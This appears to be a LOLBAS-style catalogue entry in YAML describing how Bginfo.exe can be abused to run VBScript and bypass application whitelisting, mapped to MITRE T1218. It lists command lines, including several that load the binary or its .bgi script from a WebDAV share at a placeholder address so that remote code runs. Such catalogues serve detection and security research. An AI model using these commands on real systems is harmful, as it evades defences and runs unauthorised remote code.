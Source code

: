 ```yaml
---
Name: Bginfo.exe
Description: Background Information Utility included with SysInternals Suite
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
Full_Path:
  - Path: No fixed path
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
---
```

